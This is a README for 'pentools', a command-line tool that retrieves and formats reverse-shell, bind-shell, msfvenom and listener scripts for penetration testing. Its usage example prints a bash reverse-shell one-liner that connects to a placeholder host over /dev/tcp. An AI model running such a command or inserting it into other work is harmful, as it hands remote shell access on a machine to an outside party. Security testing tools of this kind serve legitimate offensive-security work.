 ## CLI Tool for interacting with Pen Tools API.
A command line interface tool for interacting with Pen Tools API. Quickly retrieve and format scripts using a simple set of commands.
### Installation 
**The package requires Python 3.7 or higher**.

Install latest version from [PyPI](https://pypi.org/project/pentools/): ```pip install pentools``` 

### Resources
[API documentation](https://pentools.herokuapp.com/docs)
### Usage
Retrieve the list of scripts based on specified category (leave blank to see all).

```
pentools list
```
output:
```
Available types

0. rev
1. bind
2. msf_venom
3. listener
```

Add the ```-f``` flag to see available scripts.

```
pentools list rev  -f
```
```
Available scripts and types

0. rev
    Shell session established on a connection that is initiated from a remote machine.
        0. bash_i [id: 1]('linux', 'mac')
        1. bash_196 [id: 2]('linux', 'mac')
        2. bash_read_line [id: 3]('linux', 'mac')
        3. Bash_5 [id: 4]('linux', 'mac')
        ...
```

Retrieve and format a specific script based on id.

```
pentools script -i 1 -ho example.ip -p 12345 -s bin/bash
```
```
---------------(code)---------------

bin/bash -i >& /dev/tcp/example.ip/12345 0>&1

-------------(end code)-------------
```
### Contact
* Email me at <sarartur.ruk@gmail.com> or open a new [Issue](https://github.com/sarartur/pentools/issues) on Github.


        


